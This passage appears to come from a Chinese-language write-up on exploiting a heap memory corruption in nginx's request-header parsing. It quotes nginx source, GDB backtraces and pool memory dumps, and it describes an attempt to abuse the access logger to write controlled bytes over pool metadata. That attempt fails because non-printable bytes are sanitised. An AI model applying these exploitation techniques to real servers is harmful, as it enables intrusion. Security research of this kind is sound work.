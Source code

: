   
在中ngx_http_process_request_headers，对于每个成功解析的标题行，ngx_list_push从第二个池块分配内存，覆盖重叠的池块元数据。  
  
```
/* a header line has been parsed successfully */            h = ngx_list_push(&r->headers_in.headers);            if (h == NULL) {                ngx_http_close_request(r, NGX_HTTP_INTERNAL_SERVER_ERROR);                break;            }            h->hash = r->header_hash;            h->key.len = r->header_name_end - r->header_name_start; // overlaps with `current`            h->key.data = r->header_name_start;            h->key.data[h->key.len] = '\0';            h->value.len = r->header_end - r->header_start;            h->value.data = r->header_start;            h->value.data[h->value.len] = '\0';            h->lowcase_key = ngx_pnalloc(r->pool, h->key.len); // crash due to the corruption above
```  
  
  
我们如何避免破坏池块元数据？当我们处理成功解析的标头行时，该过程就会崩溃。因此，我们必须避免处理有效的标头，或者在处理任何标头之前控制流程。我做了很多尝试，但我将重点介绍两种方法。  
  
尝试 1：使用记录器  
  
pool+0x20我认为，我可以利用日志处理程序从池中分配缓冲区这一事实来写入部分受控的内容：  
  
```
[#0] 0x5a4dfc6ade3e → ngx_http_log_body_bytes_sent(r=0x711c2b220050, buf=0x711c2b220452 "", op=0x711c2b24df58)[#1] 0x5a4dfc6acc32 → ngx_http_log_handler(r=0x711c2b220050)[#2] 0x5a4dfc6a7e1a → ngx_http_log_request(r=0x711c2b220050)[#3] 0x5a4dfc6a7c67 → ngx_http_free_request(r=0x711c2b220050, rc=0x0)[#4] 0x5a4dfc6a7b24 → ngx_http_close_request(r=0x711c2b220050, rc=0x0)[#5] 0x5a4dfc6a765e → ngx_http_lingering_close_handler(rev=0x711c2b2a0e80)[#6] 0x5a4dfc681068 → ngx_event_expire_timers()[#7] 0x5a4dfc67ec08 → ngx_process_events_and_timers(cycle=0x711c2b24a4d0)[#8] 0x5a4dfc68cfc7 → ngx_worker_process_cycle(cycle=0x711c2b24a4d0, data=0x0)[#9] 0x5a4dfc689a91 → ngx_spawn_process(cycle=0x711c2b24a4d0, proc=0x5a4dfc68cf0b <ngx_worker_process_cycle>, data=0x0, name=0x5a4dfc74d887 "worker process", respawn=0x0)
```  
  
  
  
```
gef➤ tele 0x711c2b2200000x0000711c2b220000│+0x0000: 0x0000711c2b220480 → 0x0000711c2b24a4d0 → 0x0000711c2b24b780 → 0x0000711c2b24c370 → 0x00000000000000010x0000711c2b220008│+0x0008: 0x0000711c2b221000 → 0x0000000000000009 ("\t"?)0x0000711c2b220010│+0x0010: 0x0000711c2b220000 → 0x0000711c2b220480 → 0x0000711c2b24a4d0 → 0x0000711c2b24b780 → 0x0000711c2b24c370 → 0x00000000000000010x0000711c2b220018│+0x0018: 0x00000000000000000x0000711c2b220020│+0x0020: "127.0.0.1 - - [19/Feb/2025:19:18:21 +0000] "aGET /[...]"0x0000711c2b220028│+0x0028: "1 - - [19/Feb/2025:19:18:21 +0000] "aGET /very/lon[...]"0x0000711c2b220030│+0x0030: "9/Feb/2025:19:18:21 +0000] "aGET /very/long/path/t[...]"0x0000711c2b220038│+0x0038: "25:19:18:21 +0000] "aGET /very/long/path/that/keep[...]"0x0000711c2b220040│+0x0040: ":21 +0000] "aGET /very/long/path/that/keeps/going/[...]"0x0000711c2b220048│+0x0048: "0] "aGET /very/long/path/that/keeps/going/on/and/o[...]"
```  
  
  
但有一个问题：我们不能写入 NULL 字节和不可打印字符。这就是发生的事情：这些字符被清理了。  
  
```
gef➤ tele r->pool0x00007b7aa7e20000│+0x0000: 0x00007b7aa7e2009d → 0x7555de17f0000061 ("a"?)0x00007b7aa7e20008│+0x0008: 0x00007b7aa7e21000 → 0x0000000000000009 ("\t"?)0x00007b7aa7e20010│+0x0010: 0x00007b7aa7e20000 → 0x00007b7aa7e2009d → 0x7555de17f0000061 ("a"?)0x00007b7aa7e20018│+0x0018: 0x00000000000000000x00007b7aa7e20020│+0x0020: "127.0.0.1 - - [01/Mar/2025:16:29:13 +0000] "7\x13\[...]" ← $rsi0x00007b7aa7e20028│+0x0028: "1 - - [01/Mar/2025:16:29:13 +0000] "7\x13\x00\x00\[...]"0x00007b7aa7e20030│+0x0030: "1/Mar/2025:16:29:13 +0000] "7\x13\x00\x00\x00\x00\[...]"0x00007b7aa7e20038│+0x0038: 0x39323a36313a35320x00007b7aa7e20040│+0x0040: 0x3030302b2033313a0x00007b7aa7e20048│+0x0048: 0x31785c3722205d30
```  
  